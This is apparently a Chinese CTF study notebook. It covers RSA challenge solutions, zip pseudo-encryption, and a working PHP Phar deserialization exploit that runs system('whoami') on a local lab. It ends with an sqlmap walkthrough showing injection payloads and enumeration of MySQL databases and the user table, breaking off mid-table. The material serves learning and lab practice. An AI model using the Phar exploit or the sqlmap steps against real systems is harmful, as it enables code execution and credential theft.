n4 = 21206968097314131007183427944486801953583151151443627943113736996776787181111063957960698092696800555044199156765677935373149598221184792286812213294617749834607696302116136745662816658117055427803315230042700695125718401646810484873064775005221089174056824724922160855810527236751389605017579545235876864998419873065217294820244730785120525126565815560229001887622837549118168081685183371092395128598125004730268910276024806808565802081366898904032509920453785997056150497645234925528883879419642189109649009132381586673390027614766605038951015853086721168018787523459264932165046816881682774229243688581614306480751
c4 = 4521038011044758441891128468467233088493885750850588985708519911154778090597136126150289041893454126674468141393472662337350361712212694867311622970440707727941113263832357173141775855227973742571088974593476302084111770625764222838366277559560887042948859892138551472680654517814916609279748365580610712259856677740518477086531592233107175470068291903607505799432931989663707477017904611426213770238397005743730386080031955694158466558475599751940245039167629126576784024482348452868313417471542956778285567779435940267140679906686531862467627238401003459101637191297209422470388121802536569761414457618258343550613

n5 = 22822039733049388110936778173014765663663303811791283234361230649775805923902173438553927805407463106104699773994158375704033093471761387799852168337898526980521753614307899669015931387819927421875316304591521901592823814417756447695701045846773508629371397013053684553042185725059996791532391626429712416994990889693732805181947970071429309599614973772736556299404246424791660679253884940021728846906344198854779191951739719342908761330661910477119933428550774242910420952496929605686154799487839923424336353747442153571678064520763149793294360787821751703543288696726923909670396821551053048035619499706391118145067
c5 = 15406498580761780108625891878008526815145372096234083936681442225155097299264808624358826686906535594853622687379268969468433072388149786607395396424104318820879443743112358706546753935215756078345959375299650718555759698887852318017597503074317356745122514481807843745626429797861463012940172797612589031686718185390345389295851075279278516147076602270178540690147808314172798987497259330037810328523464851895621851859027823681655934104713689539848047163088666896473665500158179046196538210778897730209572708430067658411755959866033531700460551556380993982706171848970460224304996455600503982223448904878212849412357

n6 = 21574139855341432908474064784318462018475296809327285532337706940126942575349507668289214078026102682252713757703081553093108823214063791518482289846780197329821139507974763780260290309600884920811959842925540583967085670848765317877441480914852329276375776405689784571404635852204097622600656222714808541872252335877037561388406257181715278766652824786376262249274960467193961956690974853679795249158751078422296580367506219719738762159965958877806187461070689071290948181949561254144310776943334859775121650186245846031720507944987838489723127897223416802436021278671237227993686791944711422345000479751187704426369
c6 = 20366856150710305124583065375297661819795242238376485264951185336996083744604593418983336285185491197426018595031444652123288461491879021096028203694136683203441692987069563513026001861435722117985559909692670907347563594578265880806540396777223906955491026286843168637367593400342814725694366078337030937104035993569672959361347287894143027186846856772983058328919716702982222142848848117768499996617588305301483085428547267337070998767412540225911508196842253134355901263861121500650240296746702967594224401650220168780537141654489215019142122284308116284129004257364769474080721001708734051264841350424152506027932

n7 = 25360227412666612490102161131174584819240931803196448481224305250583841439581008528535930814167338381983764991296575637231916547647970573758269411168219302370541684789125112505021148506809643081950237623703181025696585998044695691322012183660424636496897073045557400768745943787342548267386564625462143150176113656264450210023925571945961405709276631990731602198104287528528055650050486159837612279600415259486306154947514005408907590083747758953115486124865486720633820559135063440942528031402951958557630833503775112010715604278114325528993771081233535247118481765852273252404963430792898948219539473312462979849137
c7 = 19892772524651452341027595619482734356243435671592398172680379981502759695784087900669089919987705675899945658648623800090272599154590123082189645021800958076861518397325439521139995652026377132368232502108620033400051346127757698623886142621793423225749240286511666556091787851683978017506983310073524398287279737680091787333547538239920607761080988243639547570818363788673249582783015475682109984715293163137324439862838574460108793714172603672477766831356411304446881998674779501188163600664488032943639694828698984739492200699684462748922883550002652913518229322945040819064133350314536378694523704793396169065179

n8 = 22726855244632356029159691753451822163331519237547639938779517751496498713174588935566576167329576494790219360727877166074136496129927296296996970048082870488804456564986667129388136556137013346228118981936899510687589585286517151323048293150257036847475424044378109168179412287889340596394755257704938006162677656581509375471102546261355748251869048003600520034656264521931808651038524134185732929570384705918563982065684145766427962502261522481994191989820110575981906998431553107525542001187655703534683231777988419268338249547641335718393312295800044734534761692799403469497954062897856299031257454735945867491191
c8 = 6040119795175856407541082360023532204614723858688636724822712717572759793960246341800308149739809871234313049629732934797569781053000686185666374833978403290525072598774001731350244744590772795701065129561898116576499984185920661271123665356132719193665474235596884239108030605882777868856122378222681140570519180321286976947154042272622411303981011302586225630859892731724640574658125478287115198406253847367979883768000812605395482952698689604477719478947595442185921480652637868335673233200662100621025061500895729605305665864693122952557361871523165300206070325660353095592778037767395360329231331322823610060006

n9 = 23297333791443053297363000786835336095252290818461950054542658327484507406594632785712767459958917943095522594228205423428207345128899745800927319147257669773812669542782839237744305180098276578841929496345963997512244219376701787616046235397139381894837435562662591060768476997333538748065294033141610502252325292801816812268934171361934399951548627267791401089703937389012586581080223313060159456238857080740699528666411303029934807011214953984169785844714159627792016926490955282697877141614638806397689306795328344778478692084754216753425842557818899467945102646776342655167655384224860504086083147841252232760941
c9 = 5418120301208378713115889465579964257871814114515046096090960159737859076829258516920361577853903925954198406843757303687557848302302200229295916902430205737843601806700738234756698575708612424928480440868739120075888681672062206529156566421276611107802917418993625029690627196813830326369874249777619239603300605876865967515719079797115910578653562787899019310139945904958024882417833736304894765433489476234575356755275147256577387022873348906900149634940747104513850154118106991137072643308620284663108283052245750945228995387803432128842152251549292698947407663643895853432650029352092018372834457054271102816934

n10 = 28873667904715682722987234293493200306976947898711255064125115933666968678742598858722431426218914462903521596341771131695619382266194233561677824357379805303885993804266436810606263022097900266975250431575654686915049693091467864820512767070713267708993899899011156106766178906700336111712803362113039613548672937053397875663144794018087017731949087794894903737682383916173267421403408140967713071026001874733487295007501068871044649170615709891451856792232315526696220161842742664778581287321318748202431466508948902745314372299799561625186955234673012098210919745879882268512656931714326782335211089576897310591491
c10 = 9919880463786836684987957979091527477471444996392375244075527841865509160181666543016317634963512437510324198702416322841377489417029572388474450075801462996825244657530286107428186354172836716502817609070590929769261932324275353289939302536440310628698349244872064005700644520223727670950787924296004296883032978941200883362653993351638545860207179022472492671256630427228461852668118035317021428675954874947015197745916918197725121122236369382741533983023462255913924692806249387449016629865823316402366017657844166919846683497851842388058283856219900535567427103603869955066193425501385255322097901531402103883869

n11 = 22324685947539653722499932469409607533065419157347813961958075689047690465266404384199483683908594787312445528159635527833904475801890381455653807265501217328757871352731293000303438205315816792663917579066674842307743845261771032363928568844669895768092515658328756229245837025261744260614860746997931503548788509983868038349720225305730985576293675269073709022350700836510054067641753713212999954307022524495885583361707378513742162566339010134354907863733205921845038918224463903789841881400814074587261720283879760122070901466517118265422863420376921536734845502100251460872499122236686832189549698020737176683019
c11 = 1491527050203294989882829248560395184804977277747126143103957219164624187528441047837351263580440686474767380464005540264627910126483129930668344095814547592115061057843470131498075060420395111008619027199037019925701236660166563068245683975787762804359520164701691690916482591026138582705558246869496162759780878437137960823000043988227303003876410503121370163303711603359430764539337597866862508451528158285103251810058741879687875218384160282506172706613359477657215420734816049393339593755489218588796607060261897905233453268671411610631047340459487937479511933450369462213795738933019001471803157607791738538467

n12 = 27646746423759020111007828653264027999257847645666129907789026054594393648800236117046769112762641778865620892443423100189619327585811384883515424918752749559627553637785037359639801125213256163008431942593727931931898199727552768626775618479833029101249692573716030706695702510982283555740851047022672485743432464647772882314215176114732257497240284164016914018689044557218920300262234652840632406067273375269301008409860193180822366735877288205783314326102263756503786736122321348320031950012144905869556204017430593656052867939493633163499580242224763404338807022510136217187779084917996171602737036564991036724299
c12 = 21991524128957260536043771284854920393105808126700128222125856775506885721971193109361315961129190814674647136464887087893990660894961612838205086401018885457667488911898654270235561980111174603323721280911197488286585269356849579263043456316319476495888696219344219866516861187654180509247881251251278919346267129904739277386289240394384575124331135655943513831009934023397457082184699737734388823763306805326430395849935770213817533387235486307008892410920611669932693018165569417445885810825749609388627231235840912644654685819620931663346297596334834498661789016450371769203650109994771872404185770230172934013971

n13 = 20545487405816928731738988374475012686827933709789784391855706835136270270933401203019329136937650878386117187776530639342572123237188053978622697282521473917978282830432161153221216194169879669541998840691383025487220850872075436064308499924958517979727954402965612196081404341651517326364041519250125036424822634354268773895465698920883439222996581226358595873993976604699830613932320720554130011671297944433515047180565484495191003887599891289037982010216357831078328159028953222056918189365840711588671093333013117454034313622855082795813122338562446223041211192277089225078324682108033843023903550172891959673551
c13 = 14227439188191029461250476692790539654619199888487319429114414557975376308688908028140817157205579804059783807641305577385724758530138514972962209062230576107406142402603484375626077345190883094097636019771377866339531511965136650567412363889183159616188449263752475328663245311059988337996047359263288837436305588848044572937759424466586870280512424336807064729894515840552404756879590698797046333336445465120445087587621743906624279621779634772378802959109714400516183718323267273824736540168545946444437586299214110424738159957388350785999348535171553569373088251552712391288365295267665691357719616011613628772175

n14 = 27359727711584277234897157724055852794019216845229798938655814269460046384353568138598567755392559653460949444557879120040796798142218939251844762461270251672399546774067275348291003962551964648742053215424620256999345448398805278592777049668281558312871773979931343097806878701114056030041506690476954254006592555275342579529625231194321357904668512121539514880704046969974898412095675082585315458267591016734924646294357666924293908418345508902112711075232047998775303603175363964055048589769318562104883659754974955561725694779754279606726358588862479198815999276839234952142017210593887371950645418417355912567987
c14 = 3788529784248255027081674540877016372807848222776887920453488878247137930578296797437647922494510483767651150492933356093288965943741570268943861987024276610712717409139946409513963043114463933146088430004237747163422802959250296602570649363016151581364006795894226599584708072582696996740518887606785460775851029814280359385763091078902301957226484620428513604630585131511167015763190591225884202772840456563643159507805711004113901417503751181050823638207803533111429510911616160851391754754434764819568054850823810901159821297849790005646102129354035735350124476838786661542089045509656910348676742844957008857457

n15 = 27545937603751737248785220891735796468973329738076209144079921449967292572349424539010502287564030116831261268197384650511043068738911429169730640135947800885987171539267214611907687570587001933829208655100828045651391618089603288456570334500533178695238407684702251252671579371018651675054368606282524673369983034682330578308769886456335818733827237294570476853673552685361689144261552895758266522393004116017849397346259119221063821663280935820440671825601452417487330105280889520007917979115568067161590058277418371493228631232457972494285014767469893647892888681433965857496916110704944758070268626897045014782837
c15 = 14069112970608895732417039977542732665796601893762401500878786871680645798754783315693511261740059725171342404186571066972546332813667711135661176659424619936101038903439144294886379322591635766682645179888058617577572409307484708171144488708410543462972008179994594087473935638026612679389759756811490524127195628741262871304427908481214992471182859308828778119005750928935764927967212343526503410515793717201360360437981322576798056276657140363332700714732224848346808963992302409037706094588964170239521193589470070839790404597252990818583717869140229811712295005710540476356743378906642267045723633874011649259842

n16 = 25746162075697911560263181791216433062574178572424600336856278176112733054431463253903433128232709054141607100891177804285813783247735063753406524678030561284491481221681954564804141454666928657549670266775659862814924386584148785453647316864935942772919140563506305666207816897601862713092809234429096584753263707828899780979223118181009293655563146526792388913462557306433664296966331469906428665127438829399703002867800269947855869262036714256550075520193125987011945192273531732276641728008406855871598678936585324782438668746810516660152018244253008092470066555687277138937298747951929576231036251316270602513451
c16 = 17344284860275489477491525819922855326792275128719709401292545608122859829827462088390044612234967551682879954301458425842831995513832410355328065562098763660326163262033200347338773439095709944202252494552172589503915965931524326523663289777583152664722241920800537867331030623906674081852296232306336271542832728410803631170229642717524942332390842467035143631504401140727083270732464237443915263865880580308776111219718961746378842924644142127243573824972533819479079381023103585862099063382129757560124074676150622288706094110075567706403442920696472627797607697962873026112240527498308535903232663939028587036724

n17 = 23288486934117120315036919418588136227028485494137930196323715336208849327833965693894670567217971727921243839129969128783853015760155446770590696037582684845937132790047363216362087277861336964760890214059732779383020349204803205725870225429985939570141508220041286857810048164696707018663758416807708910671477407366098883430811861933014973409390179948577712579749352299440310543689035651465399867908428885541237776143404376333442949397063249223702355051571790555151203866821867908531733788784978667478707672984539512431549558672467752712004519300318999208102076732501412589104904734983789895358753664077486894529499
c17 = 10738254418114076548071448844964046468141621740603214384986354189105236977071001429271560636428075970459890958274941762528116445171161040040833357876134689749846940052619392750394683504816081193432350669452446113285638982551762586656329109007214019944975816434827768882704630460001209452239162896576191876324662333153835533956600295255158377025198426950944040643235430211011063586032467724329735785947372051759042138171054165854842472990583800899984893232549092766400510300083585513014171220423103452292891496141806956300396540682381668367564569427813092064053993103537635994311143010708814851867239706492577203899024

n18 = 19591441383958529435598729113936346657001352578357909347657257239777540424811749817783061233235817916560689138344041497732749011519736303038986277394036718790971374656832741054547056417771501234494768509780369075443550907847298246275717420562375114406055733620258777905222169702036494045086017381084272496162770259955811174440490126514747876661317750649488774992348005044389081101686016446219264069971370646319546429782904810063020324704138495608761532563310699753322444871060383693044481932265801505819646998535192083036872551683405766123968487907648980900712118052346174533513978009131757167547595857552370586353973
c18 = 3834917098887202931981968704659119341624432294759361919553937551053499607440333234018189141970246302299385742548278589896033282894981200353270637127213483172182529890495903425649116755901631101665876301799865612717750360089085179142750664603454193642053016384714515855868368723508922271767190285521137785688075622832924829248362774476456232826885801046969384519549385428259591566716890844604696258783639390854153039329480726205147199247183621535172450825979047132495439603840806501254997167051142427157381799890725323765558803808030109468048682252028720241357478614704610089120810367192414352034177484688502364022887

n19 = 19254242571588430171308191757871261075358521158624745702744057556054652332495961196795369630484782930292003238730267396462491733557715379956969694238267908985251699834707734400775311452868924330866502429576951934279223234676654749272932769107390976321208605516299532560054081301829440688796904635446986081691156842271268059970762004259219036753174909942343204432795076377432107630203621754552804124408792358220071862369443201584155711893388877350138023238624566616551246804054720492816226651467017802504094070614892556444425915920269485861799532473383304622064493223627552558344088839860178294589481899206318863310603
c19 = 6790553533991297205804561991225493105312398825187682250780197510784765226429663284220400480563039341938599783346724051076211265663468643826430109013245014035811178295081939958687087477312867720289964506097819762095244479129359998867671811819738196687884696680463458661374310994610760009474264115750204920875527434486437536623589684519411519100170291423367424938566820315486507444202022408003879118465761273916755290898112991525546114191064022991329724370064632569903856189236177894007766690782630247443895358893983735822824243487181851098787271270256780891094405121947631088729917398317652320497765101790132679171889

n20 = 26809700251171279102974962949184411136459372267620535198421449833298448092580497485301953796619185339316064387798092220298630428207556482805739803420279056191194360049651767412572609187680508073074653291350998253938793269214230457117194434853888765303403385824786231859450351212449404870776320297419712486574804794325602760347306432927281716160368830187944940128907971027838510079519466846176106565164730963988892400240063089397720414921398936399927948235195085202171264728816184532651138221862240969655185596628285814057082448321749567943946273776184657698104465062749244327092588237927996419620170254423837876806659
c20 = 386213556608434013769864727123879412041991271528990528548507451210692618986652870424632219424601677524265011043146748309774067894985069288067952546139416819404039688454756044862784630882833496090822568580572859029800646671301748901528132153712913301179254879877441322285914544974519727307311002330350534857867516466612474769753577858660075830592891403551867246057397839688329172530177187042229028685862036140779065771061933528137423019407311473581832405899089709251747002788032002094495379614686544672969073249309703482556386024622814731015767810042969813752548617464974915714425595351940266077021672409858645427346
n=[n1,n2,n3,n4,n5,n6,n7,n8,n9,n10,n11,n12,n13,n14,n15,n16,n17,n18,n19,n20]
c=[c1,c2,c3,c4,c5,c6,c7,c8,c9,c10,c11,c12,c13,c14,c15,c16,c17,c18,c19,c20]
for i in range(len(n)):
	for j in range(len(n)):
		if(i!=j):
			if(gcd(n[i],n[j])!=1):
				print(i+1,j+1)
				print(gcd(n[i],n[j]))
#(5, 18)
#132585806383798600305426957307612567604223562626764190211333136246643723811046149337852966828729052476725552361132437370521548707664977123165279305052971868012755509160408641100548744046621516877981864180076497524093201404558036301820216274968638825245150755772559259575544101918590311068466601618472464832499
p=mpz(132585806383798600305426957307612567604223562626764190211333136246643723811046149337852966828729052476725552361132437370521548707664977123165279305052971868012755509160408641100548744046621516877981864180076497524093201404558036301820216274968638825245150755772559259575544101918590311068466601618472464832499)
q=n5/p
phi=(p-1)*(q-1)      #求欧拉函数
e=65537
d=invert(e,phi)       #求逆元
m=pow(c5,d,n5)
print(hex(m)[2:].decode('hex'))

```

python3跑不出来，但是使用pyhton2可以跑出来，结果如下：

`flag{abdcbe5fd94e23b3de429223ab9c2fdf}`


### [ACTF新生赛2020]crypto-rsa0

[参考WP](https://blog.csdn.net/weixin_44110537/article/details/107185613)

题干：

```
得到的 flag 请包上 flag{} 提交。
```

解压得到两套文件，另一套应该是mac os上的。这里我们看windows的：

得到一个压缩包和一个`hint.txt`:

`hint.txt`:

```
怎么办呢，出题人也太坏了，竟然把压缩包给伪加密了！
```



压缩包里有两个文件，其中`rsa0.py`是伪加密的文件，`output`是没有进行加密的文件。这里output是可以直接解压缩出来的。

文件`output`

```
9018588066434206377240277162476739271386240173088676526295315163990968347022922841299128274551482926490908399237153883494964743436193853978459947060210411
7547005673877738257835729760037765213340036696350766324229143613179932145122130685778504062410137043635958208805698698169847293520149572605026492751740223
50996206925961019415256003394743594106061473865032792073035954925875056079762626648452348856255575840166640519334862690063949316515750256545937498213476286637455803452890781264446030732369871044870359838568618176586206041055000297981733272816089806014400846392307742065559331874972274844992047849472203390350
```

使用winhex打开，原先是这个样子：



把这里修改之后：



然后`ctrl+s`保存

Emmmm，反正是按着WP没有解密成功。

这里使用N年以前的一个工具：`ZipCenOp(破解伪加密).jar`

输入命令：`java -jar ZipCenOp.jar r xxx.zip`



这个工具直接在源文件上进行修改，现在可直接解压源文件的伪加密为两个文件：



现在得到`rsa0.py`

```
from Cryptodome.Util.number import *
import random

FLAG=#hidden, please solve it
flag=int.from_bytes(FLAG,byteorder = 'big')


p=getPrime(512)
q=getPrime(512)

print(p)
print(q)
N=p*q
e=65537
enc = pow(flag,e,N)
print (enc)

```

看到题目中给的脚本，已知p, q, c, e, N, 直接写解密脚本即可。

```
p=9018588066434206377240277162476739271386240173088676526295315163990968347022922841299128274551482926490908399237153883494964743436193853978459947060210411
q=7547005673877738257835729760037765213340036696350766324229143613179932145122130685778504062410137043635958208805698698169847293520149572605026492751740223
c=50996206925961019415256003394743594106061473865032792073035954925875056079762626648452348856255575840166640519334862690063949316515750256545937498213476286637455803452890781264446030732369871044870359838568618176586206041055000297981733272816089806014400846392307742065559331874972274844992047849472203390350

n=p*q
import  gmpy2
e=65537
d=gmpy2.invert(e,(p-1)*(q-1))
m=gmpy2.powmod(c,d,n)
import binascii
print(binascii.unhexlify(hex(m)[2:]))
```

得到明文：`b'actf{n0w_y0u_see_RSA}'`

提交flag:`flag{n0w_y0u_see_RSA}`

#### 总结

[如何辨别是否是伪加密](https://blog.csdn.net/robacco/article/details/104857151)

Zip压缩包一般由如下部分组成：

```
1. 压缩源文件数据区
2. 压缩源文件目录区
3. 压缩源文件目录结束标志
```

压缩源文件数据区：



压缩源文件目录区：



压缩源文件目录结束标志：


如何识别真伪加密：

1. 无加密：

压缩源文件数据区的全局加密标志应当为00 00

且压缩源文件目录区的全局方式位标记应当为00 00

2. 伪加密：

压缩源文件数据区的全局加密标志应当为00 00

且压缩源文件目录区的全局方式位标记应当为09 00

3. 真加密：

压缩源文件数据区的全局加密标志应当为09 00

且压缩源文件目录区的全局方式位标记应当为09 00

这里细节就看文章的原链接吧。

### 一张谍报

题干：

```
国家能源总部经过派出卧底长期刺探，终于找到一个潜伏已久的国外内鬼：三楼能源楼管老王。由于抓捕仓促，老王服毒自尽了。侦查部门搜出老王每日看的报纸原来是特制的情报。聪明的你能从附件的报纸中找出情报么？flag是老王说的暗号。（由于老王的线人曾今做的土匪，所以用的行话） 注意：得到的 flag 请包上 flag{} 提交
```

下载文件解压缩得到一个文件`dianli_jbctf_CRYPTO_01_20150707_一张谍报.doc`:

本文：略（不是原文是略，原文是个doc文件，这里不好放）



构造EXP：

```
str1 = "今天上午，朝歌区梆子公司决定，在每天三更天不亮免费在各大小区门口设卡为全城提供二次震耳欲聋的敲更提醒，呼吁大家早睡早起，不要因为贪睡断送大好人生，时代的符号是前进。为此，全区老人都蹲在该公司东边树丛合力抵制，不给公司人员放行，场面混乱。李罗鹰住进朝歌区五十年了，人称老鹰头，几年孙子李虎南刚从东北当猎户回来，每月还寄回来几块鼹鼠干。李罗鹰当年遇到的老婆是朝歌一枝花，所以李南虎是长得非常秀气的一个汉子。李罗鹰表示：无论梆子公司做的对错，反正不能打扰他孙子睡觉，子曰：‘睡觉乃人之常情’。梆子公司这是连菩萨睡觉都不放过啊。李南虎表示：梆子公司智商捉急，小心居民猴急跳墙！这三伏天都不给睡觉，这不扯淡么！到了中午人群仍未离散，更有人提议要烧掉这个公司，公司高层似乎恨不得找个洞钻进去。直到治安人员出现才疏散人群归家，但是李南虎仍旧表示爷爷年纪大了，睡不好对身体不好。"
str2 = "喵天上午，汪歌区哞叽公司决定，在每天八哇天不全免费在各大小区门脑设卡为全城提供双次震耳欲聋的敲哇提醒，呼吁大家早睡早起，不要因为贪睡断送大好人生，时代的编号是前进。为此，全区眠人都足在该公司流边草丛合力抵制，不给公司人员放行，场面混乱。李罗鸟住进汪歌区五十年了，人称眠鸟顶，几年孙叽李熬值刚从流北当屁户回来，每月还寄回来几块报信干。李罗鸟当年遇到的眠婆是汪歌一枝花，所以李值熬是长得非常秀气的一个汉叽。李罗鸟表示：无论哞叽公司做的对错，反正不能打扰他孙叽睡觉，叽叶：‘睡觉乃人之常情’。哞叽公司这是连衣服睡觉都不放过啊。李值熬表示：哞叽公司智商捉急，小心居民猴急跳墙！这八伏天都不给睡觉，这不扯淡么！到了中午人群仍未离散，哇有人提议要烧掉这个公司，公司高层似乎恨不得找个洞钻进去。直到治安人员出现才疏散人群归家，但是李值熬仍旧表示爷爷年纪大了，睡不好对身体不好。"
str3 = "喵汪哞叽双哇顶，眠鸟足屁流脑，八哇报信断流脑全叽，眠鸟进北脑上草，八枝遇孙叽，孙叽对熬编叶：值天衣服放鸟捉猴顶。鸟对：北汪罗汉伏熬乱天门。合编放行，卡编扯呼。人离烧草，报信归洞，孙叽找爷爷。"
res = ""
for i in range(len(str3)):
    for j in range(len(str2)):
        if str3[i] == str2[j]:
            res += str1[j]
            break
print(res)
```

运行结果如下：

```
>>> print(res)
今朝梆子二更头，老鹰蹲猎东口，三更鼹鼠断东口 亮子，老鹰进北口上树，三枝遇孙子，孙子对虎符 曰：南天菩萨放鹰捉猴头。鹰对：北朝罗汉伏虎乱 天门。合符放行，卡符扯呼。人离烧树，鼹鼠归洞 ，孙子找爷爷。
```

提交flag:`flag{南天菩萨放鹰捉猴头}`

# 20210515

攻防世界：新手进阶区

### view_source

?? 攻防世界打不开题目

### Phar反序列化

[参考链接](https://www.jianshu.com/p/0cfc98f72e52)

靶场环境应该有俩文件：`index.php`和`Evil.class.php`

index.php

```
<?php
require_once('Evil.class.php');
if ( file_exists($_REQUEST['url']) ) {
    echo 'success!';
} else {
    echo 'error!';
}
?>

// 应该再有个文件上传功能点，这里本地测试略
```

Evil.class.php

```
<?php
class Evil {
    protected $val;
    function __construct($val)
    {
        $this->val = $val;
    }
    function __wakeup() {
        assert($this->val);
    }
}

# <?php assert($_POST[cmd])'?>
?>


```

本地构造`exp.php`

```
<?php

class Evil {
    protected $val="system('whoami');";
}


$exception = new Evil();

$phar = new Phar("vul.phar");

$phar->startBuffering();

$phar->addFromString("test.txt", "test");

$phar->setStub("<?php__HALT_COMPILER(); ?>");

$phar->setMetadata($exception);

$phar->stopBuffering();

?>
```

访问：`http://127.0.0.1/phar/exp.php`

当前目录生成`vul.phar`文件。

访问题目环境：`http://127.0.0.1/phar/index.php?url=phar://vul.phar`,可以看到执行结果



接下来，把phar后缀直接改成`zip`, `png`, `txt`，访问看看能不能触发？

`http://127.0.0.1/phar/index.php?url=phar://vul2.zip`

事实证明可以触发。



#### 总结

1. 文件上传点

2. 能找到文件读写类函数

3. 有序列化风险的类

那么大概率考phar的反序列化

[phar反序列化小结](https://blog.csdn.net/qq_42181428/article/details/100995404)



# 20210516

### SQLmap

sqlmap确实是目前最好的SQL注入工具，但他在本质上还是把所有的手工类型复现一下而已。在CTF比赛中，很少使用SQLMap这个工具。

示例如下，最好默认就带上**cookie**，并指定`level=3`：

```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3```

SQLmap中如果出现让你选择的提示，需要注意看看，这提示我们怎么做选择。选择不对的话，可能浪费时间，或者注入失败。如下是```是否测试MYSQL以外的DBMS的语句```,这里没有必要进行多余的测试，这里就按下字母`n`，然后回车：

```it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]```

这里就默认`Y`，直接回车即可：

```for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) and risk (1) values? [Y/n]```

如下信息，其实已经跑出来并判断确认是注入点了：

```
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit]
[08:52:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Generic comment)'

[08:54:29] [INFO] GET parameter 'id' appears to be 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)' injectable (with --string="Your")

[08:54:44] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable


GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 112 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)
    Payload: id=3' AND MAKE_SET(6207=6207,3716)-- qsvy

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=3' AND (SELECT 8433 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(8433=8433,1))),0x71717a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- QyBM

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=3' AND SLEEP(5)-- jHoO

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-6657' UNION ALL SELECT NULL,NULL,CONCAT(0x7171706b71,0x6973796566497862657a7a496855514c436b416761626d7175456745635966694d67556b774f6e67,0x71717a7171)-- akIE


web server operating system: Windows
web application technology: Apache 2.4.23, PHP 5.6.27
back-end DBMS: MySQL >= 5.0
[08:56:40] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\127.0.0.1'

```

可以加入参数`--technique`指定sqlmap的注入方式，来节约时间。如下依次进行暴库、报表、爆字段名、爆值。

```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E --dbs```

```
[09:04:46] [INFO] fetching database names
[09:04:57] [INFO] the SQL query used returns 14 entries
[09:04:59] [INFO] retrieved: information_schema
[09:05:01] [INFO] retrieved: ashop
[09:05:03] [INFO] retrieved: bigdata
[09:05:23] [INFO] retrieved: cc
[09:05:25] [INFO] retrieved: challenges
[09:05:27] [INFO] retrieved: dvwa
[09:05:29] [INFO] retrieved: mysql
[09:05:31] [INFO] retrieved: performance_schema
[09:05:33] [INFO] retrieved: room_system
[09:05:50] [INFO] retrieved: security
[09:05:52] [INFO] retrieved: sport
[09:05:54] [INFO] retrieved: sqli
[09:05:56] [INFO] retrieved: un
[09:05:59] [INFO] retrieved: web1
available databases [14]:
[*] ashop
[*] bigdata
[*] cc
[*] challenges
[*] dvwa·   ·······
[*] information_schema
[*] mysql
[*] performance_schema
[*] room_system
[*] security
[*] sport
[*] sqli
[*] un
[*] web1

[09:05:59] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\127.0.0.1'
```

```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E -D "mysql" --tables```


```
Database: mysql
[25 tables]
+---------------------------+
| user                      |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| temp_udf                  |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
+---------------------------+

```


```python2 sqlmap.py -u "http://127.0.0.1/Less-1/?id=3" -p "id" --cookie="PHPSESSID=8a0975bvbh5frja11j23bj70s1;token=N7SkRos%2BJF27ra6osmcnzw%3D%3D" --level=3 --technique E -D "mysql" -T "user" --columns```


```
Database: mysql
Table: user
[35 columns]
+------------------------+-----------------------------------+
| Column                 | Type                              |
+------------------------+-----------------------------------+
| User                   | char(16)                          |
| Alter_priv             | enum('N','Y')                     |
| Alter_routine_priv     | enum('N','Y')                     |
| Create_priv            | enum('N','Y')                     |
| Create_routine_priv    | enum('N','Y')                     |
| Create_tablespace_priv | enum('N','Y')                     |
| Create_tmp_table_priv  | enum('N','Y')                     |
| Create_user_priv       | enum('N','Y')                     |
| Create_view_priv       | enum('N','Y')                     |
| Delete_priv            | enum('N','Y')                     |
| Drop_priv              | enum('N','Y')                     |
| Event_priv             | enum('N','Y')                     |
| Execute_priv           | enum('N','Y')                     |
| File_priv              | enum('N','Y')                     |
| Grant_priv             | enum('N','Y')                     |
| Host                   | char(60)                          |
| Index_priv             | enum('N','Y')                     |
| Insert_priv            | enum('N','Y')                     |
| Lock_tables_priv       | enum('N','Y')                     |
| Password               | char(41)                          |
| Process_priv           | enum('N','Y')                     |
| References_priv        | enum('N','Y')                     |
| Reload_priv            | enum('N','Y')                     |
| Repl_client_priv       | enum('N','Y')                     |
| Repl_slave_priv        | enum('N','Y')                     |
| Select_priv            | enum('N','Y')                     |
| Show_db_priv           | enum('N','Y')                     |
| Show_view_priv         | enum('N','Y')                     |
| Shutdown_priv          | enum('N','Y')                     |
| ssl_cipher             | blob                              |
| ssl_type               | enum('','ANY','X509','SPECIFIED') |
| Super_priv             | enum('N','Y')                     |
